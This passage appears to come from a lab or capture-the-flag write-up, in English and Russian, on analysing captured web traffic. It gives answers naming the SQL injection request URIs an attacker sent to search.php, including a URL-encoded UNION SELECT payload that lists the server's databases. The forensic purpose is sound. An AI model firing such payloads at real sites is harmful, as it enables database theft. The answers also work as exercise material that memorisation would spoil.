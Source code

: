 ![ScreenShot](Labs/screenshots/WebInvestigation-5.png)

**Answer 4**: `/search.php?search=book%20and%201=1;%20--%20-`

---
**Question 5**: Can you provide the complete request URI that was used to read the web server available databases?

В ходе анализа SQL-запросов из захваченного трафика выявлено, что злоумышленник получил список баз данных при помощи следующего запроса:

```
/search.php?search=book%27%20UNION%20ALL%20SELECT%20NULL%2CCONCAT%280x7178766271%2CJSON_ARRAYAGG%28CONCAT_WS%280x7a76676a636b%2Cschema_name%29%29%2C0x7176706a71%29%20FROM%20INFORMATION_SCHEMA.SCHEMATA--%20-
```

Вышеописанный факт подтверждается результатом поиска информации на сайте - ресурс выдан список таблиц при реализации SQL-запроса со стороны злоумышленника, что подтверждает пакет №1525 (TCP-поток №151):

![ScreenShot](Labs/screenshots/WebInvestigation-6.png)